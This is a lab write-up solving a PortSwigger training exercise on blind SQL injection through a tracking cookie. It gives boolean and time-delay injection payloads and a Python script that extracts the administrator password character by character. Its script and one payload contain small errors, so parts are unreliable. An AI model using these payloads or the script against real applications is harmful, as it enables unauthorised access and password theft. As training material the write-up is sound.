





# Lab09: Blind SQL injection with conditional responses
* url: `https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses`
* vulnerability: `Blind SQL injection with conditional responses`


## Description 
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a Welcome back message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Proof of Concept
1. Unlike the previous labs, I do not see the results of the SQL query or any error messages. So, I must rely on studying the `application's behavior`. 
2. From the description of the lab, It tells me that the application uses a `tracking cookie` and uses this cookie to perform "authentication" within a SQL query. It also tells me that the web application returns a `Welcome Back` message if the query returns any rows of data. 
3. Although the description of the lab specifies that there is a `users` table, in a real-world scenario I may not know, so I have an additional step to check for a `users` table. 
4. First, I intercept the request in `Burp Suite` and alter the `TrackingID` cookie with the following payloads:  
* `' AND 1=1-- -`
* `' AND 1=2-- -`  
> Observe how the web application responds. There is no "Welcome back" message with the 1=2 payload

  
  
5. Because I can use the existence of `Welcome back` in the application's response as a check if the query ran in the back end, I can now alter my payload to check for the existence of a `users` table: `' AND (SELECT 'success' FROM users LIMIT 1)='success'-- -`
> `LIMIT 1` is necessary to ensure the query only retrieves one `row` from the users table. If the users table has multiple rows and the query tries to return all of them, the subquery will fail because the comparison `SELECT 'success' from users = 'success'` expects the subquery to return one value (`like 'success'`)

  
6. Now that I verified the existence of the `users` table, I can now check for the existence of `administrator` in the `username` column of the users table. I can just add a `WHERE` clause to my previous payload like: `' AND (SELECT 'success' FROM users WHERE username = 'administrator)='success'-- -`  
  
7. Now I must check the length of the `password` for the administrator user. To do this I can use the following payload: `' AND (SELECT 'success' FROM users WHERE username = 'administrator' AND LENGTH(password)>1)='success'-- -`
> This will check if the length of the password is greater than 1, and I can keep incrementing it until I do not see the `Welcome Back` message anymore. The password length is 20! 

  
8. Now that I know the length of the `password` for `administrator`, I can start checking for each value of password using `Burp Intruder`. I can use the following payload: `' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username = 'administrator')='a'-- -`. 
Within Intruder, I can:
* use `Cluster Bomb Attack Type` 
* select 'a' and '1' as my `payload position markers`. 
* use Burp's `Grep-Match` settings and configure it to look for "Welcome back" in the server's response to identify successful matches.  
9. Although this process is possible within Burp Suite, I have the community version- so the speed at which Burp sends the requests are throttled, and it would take hours for it to fully complete. So instead, I created a simple python script:
```
import requests

# global variables 
url = 'https://0ae700a0039e29be803a12be00420073.web-security-academy.net/filter?category=Pets'
characters = 'abcdefghijklmnopqrstuvwxyz'
pass_length = 20
password = ""

for x in range(1, 21): 
    for c in characters:
        cookies = dict(TrackingId=f"OYCgZkexDJmwvMoJ' AND (SELECT SUBSTRING(password, {x}, 1) FROM users WHERE username = 'administrator')='{c}'-- -")
        r = requests.get(url, cookies=cookies)

        if "Welcome back!" in r.text: 
            password += c
            break

print(f"The password is {password}")

```
10. From running this script I got the password value of `7iy30tfn4hwemekoxteh`. Using this password along with the `administrator` user on the login page will solve the lab!

## Notes
* Unlike attacks like `UNION-based` injections, `Blind SQLi` does not give the malicious actor output from the original query or error messages. So we must rely on the the web application's behavior. 
* There are two main ways to achieve this: 
  * `boolean attacks`: 1=1, 1=2
  * `time-based attacks`: pg_sleep(10), SLEEP(10)

### Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
* **Oracle** 	`dbms_pipe.receive_message(('a'),10)`
* **Microsoft** 	`WAITFOR DELAY '0:0:10'`
* **PostgreSQL** 	`SELECT pg_sleep(10)`
* **MySQL** 	`SELECT SLEEP(10)`

### Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.
* **Oracle** 	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
* **Microsoft** 	`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
* **PostgreSQL** 	`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
* **MySQL** 	`SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')` 
